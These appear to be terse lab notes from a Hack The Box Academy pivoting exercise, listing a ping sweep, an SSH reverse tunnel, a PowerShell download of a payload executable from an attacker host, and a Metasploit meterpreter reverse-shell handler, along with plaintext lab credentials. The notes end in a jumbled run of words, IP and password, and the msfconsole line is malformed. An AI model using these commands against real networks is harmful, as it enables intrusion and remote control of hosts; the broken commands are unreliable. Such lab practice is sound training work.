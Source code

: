 172.16.5.19:victor:pass@123

## Section 1
1. Question 1
```mermaid
flowchart TD
subgraph Z[" "]
direction LR
    A[Attacker]:::foo -->|ssh| B(Webserver):::bar ---> C(Target 2):::bar
    A[Attacker] --->|-L 8080:local:80| C(Target 2)
    classDef foo stroke:#f00
    classDef bar stroke:#0f0

end
```

Find host

for i in {1..255}; do (ping -c 1 172.16.5.${i} | grep "bytes from" &); done
64 bytes from 172.16.5.19: icmp_seq=1 ttl=128 time=0.310 ms
64 bytes from 172.16.5.129: icmp_seq=1 ttl=64 time=0.017 ms

## Section 2

ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.160.193-fNv

Invoke-WebRequest -Uri "http://172.16.5.129:8123/backup.exe" -OutFile "C:\Users\victor\backup.exe"

sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https set LHOST 0.0.0.0; set 8000; exploit"

tools
internet options
security tab
truted zoneHTB_@cademy_stdnt10.129.218.108HTB_@cademy_stdnt!